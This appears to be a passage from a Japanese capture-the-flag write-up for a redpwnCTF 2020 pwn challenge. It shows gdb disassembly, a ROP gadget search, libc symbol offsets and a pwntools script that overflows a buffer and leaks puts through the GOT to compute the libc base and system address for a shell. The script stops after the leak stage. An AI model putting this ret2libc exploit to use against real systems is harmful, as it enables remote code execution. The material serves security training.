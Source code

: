 ```bash
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000000000400637 <+0>:     push   rbp
   0x0000000000400638 <+1>:     mov    rbp,rsp
   0x000000000040063b <+4>:     sub    rsp,0x10
   0x000000000040063f <+8>:     mov    rax,QWORD PTR [rip+0x2009fa]        # 0x601040 <stdout@@GLIBC_2.2.5>
   0x0000000000400646 <+15>:    mov    esi,0x0
~~~
gdb-peda$ info files
~~~
        0x0000000000601040 - 0x0000000000601070 is .bss
gdb-peda$ quit
$ ./rp-lin-x64 -f the-library -r 1 | grep "pop rdi ; ret  ;"
0x00400733: pop rdi ; ret  ;  (1 found)
$ nm -D libc.so.6 | grep " puts"
00000000000809c0 W puts
~~~
$ nm -D libc.so.6 | grep " gets"
00000000000800b0 W gets
~~~
$ nm -D libc.so.6 | grep " system"
000000000004f440 W system
```
これらを利用して以下のgetshell.pyでシェルを得ることができた。  
ioを切り替え、サーバーに接続する。  
```python:getshell.py
# -*- coding: utf-8 -*-
# https://blog.8f-nai.net/post/2019-01-14-seccon2018/より
from pwn import *

e = ELF("./the-library")
#io = process(e.path)
io = remote("2020.redpwnc.tf", 31350)

puts_plt = p64(0x400520)
puts_got = p64(0x601018)
main_func = p64(0x400637)
bss = p64(0x601040)
gadget = p64(0x400733)

puts_offset = 0x809c0
gets_offset = 0x800b0
system_offset = 0x4f440

payload = "A" * 24
payload += gadget
payload += puts_got
payload += puts_plt
payload += main_func

io.recvuntil("\n")
io.sendline(payload)
io.recvuntil("AAAAAAAAAAAAAAAAAAAAAAAA\x33\x07\x40")
leak = io.recvuntil("W")
leak = leak.replace("\x0a\x57", "") #\nW

leak = leak.strip()
puts_addr = u64(leak.ljust(8, '\0'))
libc_base = puts_addr - puts_offset
gets_addr = libc_base + gets_offset
system_addr = libc_base + system_offset
print("libc_base:" + hex(libc_base))
print("puts_addr:" + hex(puts_addr))
```